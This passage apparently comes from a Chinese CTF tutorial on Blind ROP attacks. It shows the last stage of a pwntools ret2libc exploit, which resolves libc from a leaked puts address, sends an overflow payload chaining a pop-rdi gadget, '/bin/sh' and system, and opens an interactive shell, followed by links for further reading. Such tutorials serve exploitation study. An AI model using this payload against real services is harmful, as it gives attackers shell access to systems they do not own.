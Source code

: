 ```python
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

### 参考阅读

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/